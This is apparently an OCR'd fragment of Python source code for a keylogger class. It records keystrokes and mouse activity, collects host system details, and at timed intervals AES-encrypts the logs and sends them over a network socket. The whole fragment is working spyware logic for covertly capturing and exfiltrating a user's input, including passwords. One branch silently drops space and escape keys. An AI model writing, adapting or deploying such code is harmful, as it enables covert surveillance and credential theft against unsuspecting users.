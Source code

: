     def save_data(self, key):
        try:
            current_key = " " + str(key.char) + " "
        except AttributeError:
            if key == key.space:
                current_key = "SPACE"
            else:
                if key == key.esc:
                    current_key = "ESC"
                else:
                    current_key = " " + str(key) + " "
        else:
            self.appendlog_keyboard(current_key)

    def send_data(self, message):
        cipher = AES.new(self.key, AES.MODE_CBC)
        ciphertext = cipher.encrypt(pad(message, AES.block_size))
        data = cipher.iv + ciphertext
        data_size = struct.pack("!I", len(data))
        self.s.sendall(data_size)
        self.s.sendall(data)

    def report_keyboard(self):
        self.send_data(("\n\n" + self.log_keyboard).encode("utf-8"))
        self.log_keyboard = "This is keyboard:\n\n"
        timer = threading.Timer(self.interval, self.report_keyboard)
        timer.start()

    def report_mouse(self):
        self.send_data(("\n\n" + self.log_mouse).encode("utf-8"))
        self.log_mouse = ""
        timer = threading.Timer(self.interval, self.report_mouse)
        timer.start()

    def system_information(self):
        hostname = socket.gethostname()
        ip = socket.gethostbyname(hostname)
        plat = platform.processor()
        system = platform.system()
        machine = platform.machine()
        return hostname + " - " + ip + " - " + plat + " - " + system + " - " + machine

    def run_mouse(self):
        mouse_listener = mouse.Listener(on_click=(self.on_click), on_move=(self.on_move))
        with mouse_listener:
            self.report_mouse()
            mouse_listener.join()

    def run_keyboard(self):
        keyboard_listener = keyboard.Listener(on_press=(self.save_data))
        with keyboard_listener:
            self.report_keyboard()
            keyboard_listener.join()
